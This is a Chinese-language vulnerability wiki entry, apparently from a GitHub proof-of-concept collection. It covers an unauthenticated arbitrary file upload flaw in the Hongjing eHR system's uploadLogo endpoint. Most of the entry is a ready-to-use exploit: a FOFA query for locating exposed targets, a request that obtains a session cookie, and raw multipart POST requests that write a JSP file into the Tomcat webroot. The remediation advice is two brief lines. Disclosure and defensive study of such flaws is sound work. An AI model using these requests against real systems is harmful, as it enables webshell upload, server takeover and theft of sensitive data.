




---

source: "SourByte05/Vulnerability-Wiki-PoC"
---

# 宏景eHR uploadLogo存在任意文件上传漏洞

# 漏洞描述

宏景人力资源信息管理系统uploadLogo存在任意文件上传漏洞。未授权的攻击者可以上传任意文件，获取 webshell，控制服务器权限，读取敏感信息等。

# 影响版本

宏景人力资源信息管理系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="HJSOFT-HCM"

POC/EXP：获取cookie

GET /module/system/qrcard/mobilewrite/qrcardmain.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

POC/EXP：获取文件上传路径

POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Cookie: JSESSIONID=3199B98D03F1834F83CDAF45EA079D13
Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryfjKBvGWJbG07Z02r

------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="path"

------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="lfType"

0
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r--

POC/EXP：文件上传

POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Cookie: JSESSIONID=163CC9FFC3CAAEAFCF07F29B294E99F0
Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryfjKBvGWJbG07Z02r

------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="path"

D~3a~5cTomcat~39~5cwebapps~5cROOT~5ctest1.jsp
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="lfType"

0
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r--

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
